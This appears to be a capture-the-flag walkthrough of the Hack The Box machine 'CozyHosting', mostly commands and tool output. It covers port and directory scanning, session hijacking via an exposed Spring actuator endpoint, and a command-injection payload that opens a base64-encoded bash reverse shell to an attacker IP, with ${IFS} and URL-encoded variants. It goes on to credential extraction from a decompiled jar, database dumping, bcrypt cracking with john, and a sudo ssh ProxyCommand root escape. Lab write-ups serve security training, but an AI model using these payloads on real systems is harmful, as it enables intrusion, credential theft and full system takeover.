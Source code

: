 `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.230 -oG allPorts`

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 20:01 -03
Initiating SYN Stealth Scan at 20:01
Scanning 10.10.11.230 [65535 ports]
Discovered open port 80/tcp on 10.10.11.230
Discovered open port 8888/tcp on 10.10.11.230
Discovered open port 22/tcp on 10.10.11.230
Discovered open port 8000/tcp on 10.10.11.230
Completed SYN Stealth Scan at 20:01, 14.69s elapsed (65535 total ports)
Nmap scan report for 10.10.11.230
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-09 20:01:42 -03 for 15s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
8000/tcp open  http-alt       syn-ack ttl 63
8888/tcp open  sun-answerbook syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.82 seconds
           Raw packets sent: 71989 (3.168MB) | Rcvd: 71791 (2.872MB)
```

```bash
nvim /etc/hosts
cozyhosting.htb
```

[http://cozyhosting.htb/](http://cozyhosting.htb/)

`nmap -p 22,80,8000,8888 -n -Pn -sCV --min-rate 5000 10.10.11.230 -oN targeted`

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 20:10 -03
Nmap scan report for 10.10.11.230
Host is up (0.16s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
8000/tcp open  http            SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
8888/tcp open  sun-answerbook?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.85 seconds
```

`gobuster dir -u http://cozyhosting.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20`

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/12/09 20:33:40 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431] 
/admin                (Status: 401) [Size: 97]   
/logout               (Status: 204) [Size: 0]    
/error                (Status: 500) [Size: 73]   
/http%3A%2F%2Fwww     (Status: 400) [Size: 435]  
/http%3A%2F%2Fyoutube (Status: 400) [Size: 435]  
/%C0                  (Status: 400) [Size: 435]  
Progress: 66949 / 220561 (30.35%)               ^C
[!] Keyboard interrupt detected, terminating.
                                                 
===============================================================
2023/12/09 20:42:46 Finished
===============================================================
```

`dirsearch -u http://cozyhosting.htb`

```bash
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10903

Output File: /usr/lib/python3/dist-packages/dirsearch/reports/cozyhosting.htb/_23-12-09_21-29-22.txt

Error Log: /usr/lib/python3/dist-packages/dirsearch/logs/errors-23-12-09_21-29-22.log

Target: http://cozyhosting.htb/

[21:29:23] Starting: 
[21:29:35] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[21:29:39] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:29:40] 400 -  435B  - /a%5c.aspx
[21:29:41] 200 -  634B  - /actuator
[21:29:41] 200 -    5KB - /actuator/env
[21:29:41] 200 -   15B  - /actuator/health
[21:29:41] 200 -   10KB - /actuator/mappings
[21:29:42] 200 -   98B  - /actuator/sessions
[21:29:42] 200 -  124KB - /actuator/beans
[21:29:42] 401 -   97B  - /admin
[21:30:01] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[21:30:01] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[21:30:01] 500 -   73B  - /error
[21:30:02] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[21:30:02] 200 -    0B  - /extjs/resources//charts.swf
[21:30:05] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[21:30:06] 200 -   12KB - /index
[21:30:08] 200 -    4KB - /login
[21:30:08] 200 -    0B  - /login.wdm%2e
[21:30:09] 204 -    0B  - /logout
[21:30:19] 400 -  435B  - /servlet/%C0%AE%C0%AE%C0%AF

Task Completed
<dirsearch.dirsearch.Program object at 0x7f4c978d4b80>
```

[http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions)

```bash
AB7F8F8A0FC69FF5B97CB969B3A1298F	"UNAUTHORIZED"
251BBD1B1E1BBFFA5A4AA34F8DB4EC12	"UNAUTHORIZED"
65863FCFFD32AA46AE8234FCB285B739	"UNAUTHORIZED"
F99CF05847D0C79B554F3C58AAFC0D7A	"kanderson"
```

`JSESSIONID:"F99CF05847D0C79B554F3C58AAFC0D7A"`

[http://cozyhosting.htb/admin](http://cozyhosting.htb/admin)

`echo "bash -i >& /dev/tcp/<ip-atacante>/<puerto> 0>&1" | base64`
`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNzc3NyAwPiYxCg==" | base64 -d | bash`
`;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNDE0MiAwPiYxCg=="|base64${IFS}-d|bash;`
`%3becho${IFS}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNDYvNDE0MiAwPiYxCg%3d%3d"|base64${IFS}-d|bash%3b`

Tratamiento de la TTY
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

```bash
cd /app
ls -l
cloudhosting-0.0.1.jar

python3 -m http.server 80
```

```bash
wget http://<ip-victima>/<port>/cloudhosting-0.0.1.jar
```

[https://java-decompiler.github.io/](https://java-decompiler.github.io/)

`java -jar jd-gui-1.6.6.jar`

application.properties
```
```java
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

scheduled/FakeUser.class
```java
username -> kanderson
password -> MRdEQuv6~6P9
```

`psql "postgresql://postgres:Vg&nvzAQ7XxR@127.0.0.1:5432/cozyhosting"`

```bash
\l
\c cozyhosting
\dt
\d users
SELECT * FROM users;

   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt admin

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:12 DONE (2023-12-13 09:22) 0.07710g/s 216.4p/s 216.4c/s 216.4C/s hellomoto..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
su josh
manchesterunited
```

```bash
cd /home/jose
cat user.txt
```

> [!IMPORTANT]
> User flag: c07db06d197bee1a21bfdad6494b6519

```bash
sudo -l
manchesterunited

Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

```bash
cd /root
cat root.txt
```

> [!IMPORTANT]
> Root flag: 6b8ccb9c26ebf11122a9e82977301258

